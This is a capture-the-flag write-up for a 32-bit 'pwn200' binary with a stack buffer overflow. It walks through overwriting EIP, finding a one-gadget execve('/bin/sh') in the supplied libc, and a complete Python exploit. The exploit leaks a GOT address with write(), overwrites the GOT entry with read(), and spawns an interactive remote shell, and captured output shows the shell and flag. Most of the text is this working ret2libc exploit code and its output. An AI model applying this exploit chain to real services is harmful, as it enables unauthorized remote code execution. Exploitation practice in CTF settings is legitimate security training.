 ### Solved by superkojiman, barrebas, and et0x

We're given a 32-bit binary and a copy of libc.so.6 used on the target. A disassembly of the binary showed an obvious buffer overflow: 

```
int sub_804863D()
{
  size_t v0; // eax@1
  int buf; // [sp+10h] [bp-80h]@1

  memset(&buf, 0, 128u);
  read(0, &buf, 1024u);
  v0 = strlen((const char *)&buf);
  write(0, &buf, v0);
  return 0;
}
```

A buffer of 128 bytes is zeroed out using memset, and then the binary reads 1024 bytes of data into it. The read data is then printed out to the user. The only defenses built into the binary was NX, and we assumed the target had ASLR enabled. 

If we input 144 bytes, we overwrite EIP. 

```
koji@pwnbox32:~/Desktop/pwn002$ python -c 'print "A"*140 + "B"*4' > in.txt
koji@pwnbox32:~/Desktop/pwn002$ ./pwn200 < in.txt 
Segmentation fault (core dumped)
koji@pwnbox32:~/Desktop/pwn002$ gdb -batch -c core -n -ex 'p $eip'
[New LWP 2848]
Core was generated by `./pwn200'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
$1 = (void (*)()) 0x42424242
```

All that was left was to figure out where to return to. Since we already had a copy of the target's libc, I decided to search for a one-gadget RCE that would essentially execute execve("/bin/sh"). Using IDA, I found one such instance:

```
.text:0003FB8F                 mov     eax, ds:(environ_ptr_0 - 1A7000h)[ebx]
.text:0003FB95                 mov     ds:(dword_1A8620 - 1A7000h)[ebx], 0
.text:0003FB9F                 mov     ds:(dword_1A8624 - 1A7000h)[ebx], 0
.text:0003FBA9                 mov     eax, [eax]
.text:0003FBAB                 mov     [esp+16Ch+var_164], eax
.text:0003FBAF                 lea     eax, [esp+16Ch+var_138]
.text:0003FBB3                 mov     [esp+16Ch+var_168], eax
.text:0003FBB7                 lea     eax, (aBinSh - 1A7000h)[ebx] ; "/bin/sh"
.text:0003FBBD                 mov     [esp+16Ch+status], eax
.text:0003FBC0                 call    execve
```

Great, all we needed to do now was leak libc's base address, and we were good to go. Barrebas took care of that. 

When I entered this CTF, the guys had already made quite some progress. They figured out they could leak memory by returning to `write()`. Superkojiman had found the one-gadget RCE address. All I had to do was leak a GOT pointer using `write`, apply the right offset and have the binary `read` in that new address into a GOT pointer. Finally, return to a PLT entry to jump to the one-gadget RCE & enjoy the shell!

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
#   s.connect(('localhost', 6666))
    s.connect(('lab33.wargame.whitehat.vn', 10200))
    
    payload = ""
    payload += "A"*140  

    write   = 0x80484e0     # plt entry of write
    read    = 0x8048520     # plt entry of read
    pop3ret = 0x804876d     # 
    
    payload += p(write)     # first leak a libc address
    payload += p(pop3ret)
    payload += p(1)         # fd = stdout
    payload += p(0x804a020) # got pointer of libc_start_main
    payload += p(4)         # count

    payload += p(read)      # have the binary read in the new address
    payload += p(0x8048500) # plt entry of libc_start_main; will be overwritten with address of RCE gadget
    payload += p(0)         # fd = stdin
    payload += p(0x804a020) # got pointer of libc_start_main
    payload += p(4)         # read in 4 bytes
    
    s.send(payload)
    
    data = s.recv(len(payload)) # first, receive our input echoed back to us
    data = s.recv(4)        # this contains the libc_start_main address
    
    libc_start_main = struct.unpack('I', data)[0]
    
    # apply some offsets, really helps to have libc.so.6 available to us
    print "[+] Leaked libc_start_main: " + hex(libc_start_main)
    libc_rce = libc_start_main - 0x19970 + 0x3FB8F
    print "[+] Calced libc_rce: " + hex(libc_rce)
    
    # over on the server side, the binary should be waiting at our read() call
    time.sleep(0.1)
    s.send(p(libc_rce))
    
    print "[+] Enjoy your shell!"
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()
pwn()
```

And running it versus the remote server:

```bash
bas@tritonal:~/tmp/wh/pwn200$ python poc1.py
[+] Leaked libc_start_main: 0xf74d1970
[+] Calced libc_rce: 0xf74f7b8f
[+] Enjoy your shell!
id
uid=1003 gid=1003
cat /home/*/flag
WhiteHat{bccd54b76eaa8891d8704b3d194bfeb284d1e7c2}
```

Great team effort!

